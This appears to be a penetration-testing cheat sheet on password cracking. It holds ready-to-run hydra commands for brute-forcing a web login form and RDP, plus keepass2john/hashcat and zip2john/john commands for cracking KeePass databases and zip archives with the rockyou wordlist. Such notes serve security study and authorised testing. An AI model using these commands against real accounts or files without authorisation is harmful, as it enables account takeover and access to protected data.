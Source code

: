 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)
- [RDP](#RDP)
- [KeePass DB](#KeePass-DB)
- [Zip](#Zip)

## First Rule
Always try the default credentials!

## Form Login
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

## RDP
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```

## KeePass DB
``` bash
keepass2john Database.kdbx > keepass.hash                                                               ## extract the hash (*)
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule  ## cracking
```
(*) The hash file was generated with the string "Database:", delete it.

## Zip
``` bash
zip2john file.zip > file.hash                               ## hash extraction
john file.hash --wordlist=/usr/share/wordlists/rockyou.txt  ## cracking
```